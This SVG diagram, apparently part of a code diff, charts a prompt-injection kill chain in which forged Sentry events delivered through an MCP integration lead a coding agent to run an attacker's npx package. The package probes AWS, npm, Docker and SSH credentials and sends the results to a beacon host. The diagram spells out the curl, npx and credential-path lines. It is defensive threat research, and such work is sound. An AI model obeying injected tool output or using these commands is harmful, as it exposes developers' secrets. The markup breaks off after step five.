

<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 880 1280" role="img" aria-labelledby="t d">
  <defs>
    <style>
.bg { fill: #ffffff; }
.head { font: 700 18px sans-serif; fill: #0a0a0a; }
.meta { font: 11px sans-serif; fill: #404040; }
.laneL { fill: #f3f7fb; stroke: #5a7da6; stroke-width: 1.2; }
.laneR { fill: #faf3ee; stroke: #b07a3a; stroke-width: 1.2; }
.laneLabelL { font: 700 12px sans-serif; fill: #2a4a6a; }
.laneLabelR { font: 700 12px sans-serif; fill: #8a5520; }
.stage { fill: #ffffff; stroke: #5a7da6; stroke-width: 1.1; }
.stageK { fill: #fdecec; stroke: #b03030; stroke-width: 1.4; }
.op { fill: #ffffff; stroke: #b07a3a; stroke-width: 1.1; }
.opK { fill: #fdecec; stroke: #b03030; stroke-width: 1.4; }
.band { fill: #f7f1eb; stroke: #c08555; stroke-width: 1.2; }
.badge { fill: #5a7da6; }
.badgeK { fill: #b03030; }
.badgeR { fill: #b07a3a; }
.badgeText { font: 700 12px sans-serif; fill: #ffffff; text-anchor: middle; }
.label { font: 700 13px sans-serif; fill: #0a0a0a; }
.sub { font: 11px sans-serif; fill: #303030; }
.mono { font: 10.5px ui-monospace, "SFMono-Regular", Consolas, monospace; fill: #303030; }
.footer { fill: #f6f6f4; stroke: #888; stroke-width: 1; }
.footerH { font: 700 12px sans-serif; fill: #1a1a1a; }
.footerT { font: 10.5px sans-serif; fill: #1a1a1a; }
.arrow { stroke: #2a4a6a; stroke-width: 1.6; fill: none; }
.arrowX { stroke: #7a3a7a; stroke-width: 1.6; fill: none; stroke-dasharray: 5 3; }
.arrowR { stroke: #8a5520; stroke-width: 1.6; fill: none; }
@media (prefers-color-scheme: dark) {
  .bg { fill: #0d1117; }
  .head, .label, .footerH { fill: #f0f0f0; }
  .meta, .sub, .footerT { fill: #c8c8c8; }
  .mono { fill: #c0d0e0; }
  .laneL { fill: #182230; stroke: #7aa6d0; }
  .laneR { fill: #2a2418; stroke: #d09a5a; }
  .laneLabelL { fill: #a8c6e2; }
  .laneLabelR { fill: #e2bf8a; }
  .stage { fill: #1c2530; stroke: #7aa6d0; }
  .stageK { fill: #3a1818; stroke: #e06060; }
  .op { fill: #2a2418; stroke: #d09a5a; }
  .opK { fill: #3a1818; stroke: #e06060; }
  .band { fill: #2a2418; stroke: #d09a5a; }
  .badge { fill: #7aa6d0; }
  .badgeK { fill: #e06060; }
  .badgeR { fill: #d09a5a; }
  .badgeText { fill: #0d1117; }
  .footer { fill: #1a1d22; stroke: #555; }
  .arrow { stroke: #a8c6e2; }
  .arrowX { stroke: #c898d0; }
  .arrowR { stroke: #e2bf8a; }
}
+ 
+ .acc-ransomware { fill: #b03030; }
+ .acc-espionage { fill: #2a4a6a; }
+ .acc-supply-chain { fill: #b07a3a; }
+ .acc-identity-cloud { fill: #6a4ca6; }
+ .acc-ot-ics { fill: #2f8f4e; }
+ .acc-edge-network { fill: #1d7a8c; }
+ .acc-mobile { fill: #c2569a; }
+ .acc-crypto-defi { fill: #d08a1f; }
+ .acc-malware-re { fill: #556070; }
+ .acc-other { fill: #6a6a6a; }
+ .accLabel { font: 700 11px sans-serif; fill: #ffffff; }
</style>
    <marker id="ah" viewBox="0 0 10 10" refX="9" refY="5" markerWidth="7" markerHeight="7" orient="auto">
      <path d="M0,0 L10,5 L0,10 z" fill="currentColor" />
    </marker>
  </defs>
  <rect class="bg" x="0" y="0" width="880" height="1280" />
+   <rect class="acc-supply-chain" x="0" y="0" width="880" height="8" />
  <text class="head" x="20" y="36">Agentjacking via Sentry MCP — DSN Injection Kill Chain</text>
  <text class="meta" x="20" y="58">Vendor: Tenet Security · Date: 2026-06-12 · Cluster: Agentjacking-unattributed · Day 54</text>
  <rect class="laneL" x="20" y="85" width="410" height="1080" />
  <text class="laneLabelL" x="215" y="108" text-anchor="middle">VICTIM — Developer Environment</text>
  <rect class="laneR" x="450" y="85" width="410" height="1080" />
  <text class="laneLabelR" x="655" y="108" text-anchor="middle">ATTACKER — Infrastructure</text>
  <rect class="stage" x="30" y="120" width="395" height="135" />
  <circle class="badge" cx="50" cy="140" r="14" />
  <text class="badgeText" x="50" y="144">1</text>
  <text class="label" x="70" y="144">DSN Embedded in Frontend JS</text>
  <text class="sub" x="40" y="168">Sentry SDK integrates DSN into browser-side JS bundle.</text>
  <text class="sub" x="40" y="184">DSN is intentionally public — write-only by Sentry design.</text>
  <text class="sub" x="40" y="200">T1190 — Exploit Public-Facing Application (write endpoint)</text>
  <text class="mono" x="40" y="226">https://&lt;32hex&gt;@o&lt;id&gt;.ingest.sentry.io/api/&lt;proj&gt;/store/</text>
  <text class="mono" x="40" y="244">dist/bundle.js, .env.production, GitHub search</text>
  <rect class="op" x="460" y="125" width="395" height="155" />
  <circle class="badgeR" cx="480" cy="145" r="14" />
  <text class="badgeText" x="480" y="149">A</text>
  <text class="label" x="500" y="149">Passive DSN Reconnaissance</text>
  <text class="sub" x="470" y="173">Censys: services.http.response.body:ingest.sentry.io</text>
  <text class="sub" x="470" y="189">GitHub: org:&lt;target&gt; SENTRY_DSN language:javascript</text>
  <text class="sub" x="470" y="205">Frontend JS bundle source inspection</text>
  <text class="sub" x="470" y="221">2,388 injectable DSNs found; 71 in Tranco top-1M</text>
  <text class="mono" x="470" y="253">T1593 Search Open Websites/Domains</text>
  <text class="mono" x="470" y="271">Zero authentication — no breach required</text>
  <line class="arrow" x1="227" y1="255" x2="227" y2="268" marker-end="url(#ah)" />
  <rect class="stage" x="30" y="270" width="395" height="135" />
  <circle class="badge" cx="50" cy="290" r="14" />
  <text class="badgeText" x="50" y="294">2</text>
  <text class="label" x="70" y="294">Developer Asks Agent to Fix Sentry Errors</text>
  <text class="sub" x="40" y="318">Normal developer workflow: "Fix unresolved Sentry errors"</text>
  <text class="sub" x="40" y="334">Agent queries Sentry MCP integration for recent events</text>
  <text class="sub" x="40" y="350">MCP server returns all stored events — including injected one</text>
  <text class="mono" x="40" y="376">T1195 Supply Chain Compromise (trusted platform relay)</text>
  <text class="mono" x="40" y="394">Claude Code / Cursor / Codex — Sentry MCP connected</text>
  <rect class="op" x="460" y="295" width="395" height="155" />
  <circle class="badgeR" cx="480" cy="315" r="14" />
  <text class="badgeText" x="480" y="319">B</text>
  <text class="label" x="500" y="319">Craft Forged Sentry Event</text>
  <text class="sub" x="470" y="343">JSON payload with ## Resolution markdown in extra field</text>
  <text class="sub" x="470" y="359">Structurally identical to Sentry own MCP output templates</text>
  <text class="sub" x="470" y="375">Contains: npx --yes @attacker/pkg@latest --diagnose</text>
  <text class="sub" x="470" y="391">POST to ingest endpoint: HTTP 200 accepted silently</text>
  <text class="mono" x="470" y="423">curl -X POST https://o&lt;ORG&gt;.ingest.sentry.io/...</text>
  <text class="mono" x="470" y="441">X-Sentry-Auth: Sentry sentry_key=&lt;KEY&gt;, sentry_version=7</text>
  <line class="arrowX" x1="425" y1="337" x2="458" y2="337" marker-end="url(#ah)" />
  <line class="arrow" x1="227" y1="405" x2="227" y2="418" marker-end="url(#ah)" />
  <rect class="stage" x="30" y="420" width="395" height="135" />
  <circle class="badge" cx="50" cy="440" r="14" />
  <text class="badgeText" x="50" y="444">3</text>
  <text class="label" x="70" y="444">Injected Event Returned as Trusted Tool Output</text>
  <text class="sub" x="40" y="468">MCP tool response has higher implicit trust than user input</text>
  <text class="sub" x="40" y="484">Agent cannot distinguish injected from legitimate guidance</text>
  <text class="sub" x="40" y="500">## Resolution block appears as authoritative remediation step</text>
  <text class="mono" x="40" y="526">T1534 Internal Spearphishing (trusted-channel injection)</text>
  <text class="mono" x="40" y="544">Prompt-layer defenses: 85% bypass rate in testing</text>
  <rect class="op" x="460" y="465" width="395" height="155" />
  <circle class="badgeR" cx="480" cy="485" r="14" />
  <text class="badgeText" x="480" y="489">C</text>
  <text class="label" x="500" y="489">npm Package Hosted on Public Registry</text>
  <text class="sub" x="470" y="513">Attacker-controlled @scope/package published to npmjs.com</text>
  <text class="sub" x="470" y="529">Package contains credential-probing and beacon logic</text>
  <text class="sub" x="470" y="545">Legitimate npm CDN delivery — no anomaly in traffic</text>
  <text class="sub" x="470" y="561">PoC used x-tenet-security header; real attacker omits it</text>
  <text class="mono" x="470" y="593">T1195 / T1059.007 — npm registry as delivery vector</text>
  <text class="mono" x="470" y="611">registry.npmjs.org — allowed by all corporate firewalls</text>
  <line class="arrow" x1="227" y1="555" x2="227" y2="568" marker-end="url(#ah)" />
  <rect class="stageK" x="30" y="570" width="395" height="135" />
  <circle class="badgeK" cx="50" cy="590" r="14" />
  <text class="badgeText" x="50" y="594">4</text>
  <text class="label" x="70" y="594">Agent Executes Attacker npx Command [DETECT HERE]</text>
  <text class="sub" x="40" y="618">Agent runs: npx --yes @attacker/pkg@latest --diagnose</text>
  <text class="sub" x="40" y="634">Full developer OS privileges — no elevation needed</text>
  <text class="sub" x="40" y="650">ONLY conventional indicator: npx child of AI agent parent</text>
  <text class="mono" x="40" y="676">T1059.007 Command and Scripting Interpreter: JavaScript</text>
  <text class="mono" x="40" y="694">Sysmon EID 1: claude.exe -&gt; node.exe -&gt; npx -&gt; node</text>
  <line class="arrowX" x1="425" y1="637" x2="458" y2="537" marker-end="url(#ah)" />
  <rect class="op" x="460" y="635" width="395" height="155" />
  <circle class="badgeR" cx="480" cy="655" r="14" />
  <text class="badgeText" x="480" y="659">D</text>
  <text class="label" x="500" y="659">Attacker Beacon Receives Probe Data</text>
  <text class="sub" x="470" y="683">advisory-tracker.com (PoC) — two sequential POST requests</text>
  <text class="sub" x="470" y="699">POST 1: env vars exist flag + network interface metadata</text>
  <text class="sub" x="470" y="715">POST 2: credential file sizes (.aws, .npmrc, .docker)</text>
  <text class="sub" x="470" y="731">Operator identifies high-value targets for weaponized follow-up</text>
  <text class="mono" x="470" y="763">T1048 Exfiltration Over Alternative Protocol (HTTPS)</text>
  <text class="mono" x="470" y="781">No unauthorized action — EDR/WAF/IAM/VPN all silent</text>
  <line class="arrow" x1="227" y1="705" x2="227" y2="718" marker-end="url(#ah)" />
  <rect class="stageK" x="30" y="720" width="395" height="135" />
  <circle class="badgeK" cx="50" cy="740" r="14" />
  <text class="badgeText" x="50" y="744">5</text>
  <text class="label" x="70" y="744">Credential Harvest — AWS / npm / Docker / SSH</text>
  <text class="sub" x="40" y="768">Probes: ~/.aws/config, ~/.npmrc, ~/.docker/config.json</text>
  <text class="sub" x="40" y="784">Also: ~/.ssh/id_*, process.env (all env vars), ~/.kube/config</text>
  <text class="sub" x="40" y="800">Confirmed: live AWS secret keys, GitHub OAuth tokens, SSH sockets</text>
  <text class="mono" x="40" y="826">T1552.001 Unsecured Credentials: Credentials In Files</text>
  <text class="mono" x="40" y="844">T1078 Valid Accounts — developer creds used directly</text>
  <line class="arrowX" x1="425" y1="787" x2="458" y2="712" marker-end="url(#ah)" />
  <line class="arrow" x1="227" y1="855" x2="227" y2="868" marker-end="url(#ah)" />
